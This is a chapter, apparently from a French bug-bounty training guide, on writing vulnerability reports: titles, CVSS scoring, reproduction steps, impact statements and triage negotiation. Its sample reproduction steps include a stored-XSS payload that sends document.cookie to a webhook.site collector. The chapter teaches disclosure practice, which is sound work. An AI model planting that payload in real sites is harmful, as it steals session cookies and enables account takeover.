

# 10 — Reporting & Communication

## Le rapport est un livrable, pas une formalité

Un même bug peut être payé P4 (low) ou P1 (critical) selon la qualité de la démonstration d'impact et la clarté de la rédaction. Le triager décide vite — souvent en moins de 5 minutes de lecture — s'il doit escalader ou downgrader.

## Anatomie d'un rapport qui maximise le payout



### Titre

❌ "XSS sur le site"
✅ "XSS stockée dans le champ 'Bio' du profil utilisateur permettant une prise de compte via vol de session (impact tous utilisateurs authentifiés)"

Le titre doit contenir : la classe de vulnérabilité, la localisation exacte, et l'impact principal.

### Résumé exécutif

2-3 phrases maximum, lisibles par quelqu'un qui ne lira peut-être rien d'autre en premier passage : quoi, où, impact principal.

### Sévérité — toujours justifier, pas juste affirmer

```
Sévérité : Haute (CVSS 3.1 : 8.1 - High)
Vecteur CVSS : AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N
Justification : accès non authentifié requis nul, interaction utilisateur limitée
à la visite d'une page publique, confidentialité et intégrité impactées sur
l'ensemble des comptes utilisateurs (pas seulement le compte testé).
```

> 💡 **Pro tip :** Calcule toujours le score CVSS toi-même (calculateur officiel FIRST.org) plutôt que de dire "je pense que c'est critique". Un score justifié vecteur par vecteur est bien plus difficile à downgrader par un triager pressé.

### Étapes de reproduction — le point le plus critique

```
1. Se connecter en tant qu'utilisateur A (compte de test : test-a@example.com)
2. Naviguer vers https://target.com/profile/edit
3. Dans le champ "Bio", entrer le payload : <script>fetch('https://webhook.site/xxx?c='+document.cookie)</script>
4. Sauvegarder le profil
5. Se connecter en tant qu'utilisateur B (compte de test : test-b@example.com)
6. Naviguer vers https://target.com/profile/A/view
7. Observer l'exécution du payload — requête reçue sur webhook.site (capture jointe)
```

**Règles non négociables :**
- Chaque étape doit être **exécutable telle qu'écrite**, sans supposition ni étape implicite.
- Toujours indiquer les comptes de test utilisés (jamais de comptes réels tiers).
- Inclure les requêtes HTTP brutes complètes (headers pertinents inclus) en annexe/bloc de code, pas seulement une capture d'écran.
- Vidéo de PoC recommandée pour toute vulnérabilité impliquant plusieurs étapes/comptes — élimine toute ambiguïté d'interprétation par le triager.

### Impact business — traduire le technique en risque réel

❌ "Un attaquant peut voler le cookie de session."
✅ "Un attaquant peut prendre le contrôle de n'importe quel compte utilisateur ayant visité le profil compromis, incluant potentiellement des comptes administrateurs si un admin consulte un profil malveillant — impact direct sur l'intégrité de l'ensemble de la plateforme et risque de fuite de données personnelles pour tous les utilisateurs affectés."

Quantifie quand possible : nombre d'utilisateurs concernés, sensibilité des données exposées, coût estimé d'un abus à l'échelle.

### Scénario d'attaque réaliste

Décris comment un attaquant réel exploiterait ce bug en conditions réelles (pas juste en lab) : vecteur de distribution du payload, ingénierie sociale minimale nécessaire, échelle atteignable.

## Négociation et triage — comment réagir

| Situation | Comment répondre |
|---|---|
| Le triager downgrade la sévérité sans justification claire | Répondre poliment avec des faits techniques précis (CVSS recalculé, comparaison à un rapport similaire public payé plus haut si disponible), jamais sur un ton accusateur |
| Le rapport est marqué "duplicate" | Demander poliment une preuve (souvent refusée, mais la demande elle-même montre ta rigueur) ; si le duplicate te semble injustifié, argumenter sur la différence technique précise (vecteur différent, endpoint différent) |
| Silence prolongé (> SLA annoncé) | Un follow-up poli après le SLA, jamais agressif — les programmes gèrent des volumes énormes |
| Demande d'information complémentaire | Répondre rapidement et de façon complète — la vitesse de réponse influence positivement la relation et les futurs triages |
| Rejet "Informative"/"Not Applicable" injustifié | Un contre-argument technique factuel unique, sans insister au-delà d'un ou deux échanges — certains programmes ont simplement une politique d'acceptation différente |

> ⚠️ **Ne jamais** menacer de disclosure publique non coordonnée pour faire pression sur un payout — c'est une violation du code de conduite responsable et peut entraîner un bannissement définitif de la plateforme, indépendamment de la validité technique du rapport.

## Style d'écriture — ce qui distingue un rapport "top hunter"

- Phrases courtes, factuelles, sans adjectifs superflus ("extrêmement dangereux", "catastrophique") — laisse les faits parler.
- Aucune faute d'orthographe/grammaire majeure — un rapport négligé sur la forme fait douter de la rigueur sur le fond.
- Formatage Markdown propre (le triager lit des dizaines de rapports par jour — la lisibilité compte).
- Toujours relire une dernière fois en se demandant : "Un triager qui ne connaît rien de ce produit pourrait-il reproduire ça en suivant uniquement mes étapes ?"

## Voir aussi

[`templates/bug-report-template.md`](../../templates/bug-report-template.md) — template complet prêt à l'emploi.
